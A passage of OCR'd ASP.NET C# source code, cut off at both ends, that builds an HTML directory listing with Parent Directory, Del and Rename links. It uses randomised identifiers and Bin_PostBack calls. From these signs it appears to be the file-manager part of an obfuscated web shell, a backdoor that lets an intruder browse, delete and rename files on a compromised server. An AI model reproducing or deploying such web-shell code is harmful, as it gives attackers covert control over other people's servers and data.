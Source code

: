 {
string bg=OKM();
TableRow p=new TableRow();
for(int i=1;i&lt;6;i++)
{
TableCell pc=new TableCell();
if(i==1)
{
pc.Width=Unit.Parse("2%");
pc.Text="0";
p.CssClass=bg;
}
if(i==2)
{
pc.Text="&lt;a href=\"javascript:Bin_PostBack('Bin_Parent','"+MVVJ(Directory.GetParent(nrrx(path)).ToString())+"')\"&gt;Parent Directory&lt;/a&gt;";
}
p.Cells.Add(pc);
UGzP.Rows.Add(p);
}
}
try
{
int vLlH=0;
foreach(DirectoryInfo Bin_folder in GQMM.GetDirectories())
{
string bg=OKM();
vLlH++;
TableRow tr=new TableRow();
TableCell tc=new TableCell();
tc.Width=Unit.Parse("2%");
tc.Text="0";
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tr.Cells.Add(tc);
TableCell HczyN=new TableCell();
HczyN.Text="&lt;a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(AXSbb.Value+Bin_folder.Name)+"')\"&gt;"+Bin_folder.Name+"&lt;/a&gt;";
tr.Cells.Add(HczyN);
TableCell LYZK=new TableCell();
LYZK.Text=Bin_folder.LastWriteTimeUtc.ToString("yyyy-MM-dd hh:mm:ss");
tr.Cells.Add(LYZK);
UGzP.Rows.Add(tr);
TableCell ERUL=new TableCell();
ERUL.Text="--";
tr.Cells.Add(ERUL);
UGzP.Rows.Add(tr);
TableCell ZGKh=new TableCell();
ZGKh.Text="&lt;a href=\"javascript:if(confirm('Are you sure will delete it ?\\n\\nIf non-empty directory,will be delete all the files.')){Bin_PostBack('kRXgt','"+MVVJ(AXSbb.Value+Bin_folder.Name)+"')};\"&gt;Del&lt;/a&gt; | &lt;a href='#' onclick=\"var filename=prompt('Please input the new folder name:','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_folder.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('dAJTD"+MVVJ(AXSbb.Value+Bin_folder.Name)+"',filename);} \"&gt;Rename&lt;/a&gt;";
tr.Cells.Add(ZGKh);
UGzP.Rows.Add(tr);
}
TableRow cKVA=new TableRow();
cKVA.Attributes["style"]="border-top:1px solid #fff;border-bottom:1px solid #ddd;";
cKVA.Attributes["bgcolor"]="#dddddd";
TableCell JlmW=new TableCell();
JlmW.Attributes["colspan"]="6" ;
JlmW.Attributes["height"]="5";
cKVA.Cells.Add(JlmW);